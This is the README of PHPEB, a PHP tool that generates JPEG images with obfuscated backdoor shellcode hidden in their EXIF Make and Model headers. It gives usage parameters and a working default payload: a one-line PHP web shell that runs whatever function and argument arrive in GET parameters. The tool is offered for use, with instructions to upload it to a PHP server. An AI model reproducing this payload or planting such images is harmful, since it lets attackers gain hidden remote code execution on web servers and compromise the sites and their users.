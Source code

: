 PHP EXIF Backdoors generator using custom shellcode
==================

> PHPEB is a small tool that generates and stores obfuscated shellcode in user specified EXIF handlers.

* __Version__ : 1.0
* __Website__ : [Cyber Security Research Center from Romania](http://ccsir.org)
* __Contact__ : contact [at] ccsir [dot] org
 
##Usage
> php phpeb.php [params]

##Params
* -i path_to_image.jpg
* -o path_to_backdoored_image.jpg
* -s shellcode (optional)
* -h EXIF headers (N/A in v1.0, Default:Make,Model)
* -v verbose 1 or 0(optional, Default:0)
* Default: !empty(\$1=@\$_GET[1]) && \$1(\$_GET[2]);
	
##Help
  - No need. Just download these files and upload in an environment that supports PHP. You can send any feedback
    or questions to contact [at] ccsir [dot] org

##License

Copyright (C) 2013 Cyber Security Research Center from Romania

This program is free software; you can redistribute it and/or modify it under the terms of the GNU General Public License as published by the Free Software Foundation; either version 3 of the License, or (at your option) any later version.

This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the GNU General Public License for more details.

You should have received a copy of the GNU General Public License along with this program; if not, see <http://www.gnu.org/licenses/>.    
